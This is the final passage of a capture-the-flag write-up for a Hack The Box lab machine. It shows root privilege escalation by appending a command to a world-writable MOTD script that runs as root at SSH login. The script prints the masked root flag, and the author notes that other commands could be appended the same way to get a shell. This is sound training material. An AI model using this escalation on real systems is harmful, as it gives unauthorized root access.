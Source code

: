     [ -r /etc/lsb-release ] && . /etc/lsb-release
    
    
    echo "\nWelcome to Xh4H land \n"

So this is the one which greeted us while doing ssh. Since these files are world writable and executed by root user, let’s make use of this weakness to get flag from root.txt


    $ echo 'cat /root/root.txt' >> 00-header

So literally what above command does is , appends our query to 00-header file which is then executed as shown below


    root@kali:~# ssh sysadmin@10.10.10.181
    #################################
    -------- OWNED BY XH4H  ---------
    - I guess stuff could have been configured better ^^ -
    #################################
    
    Welcome to Xh4H land 
    
    {afxxxxxxxxxxxxxxxxxxxxxxxxx16} --> root.txt content
    
    
    Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings
    
    Last login: Wed Aug 19 01:27:40 2020 from 10.10.14.76

As you can see that root.txt content is displayed while we try to ssh. Likewise you can create a interactive shell by appending desired commands.
 
Thank you, Have a nice day!! 😄 

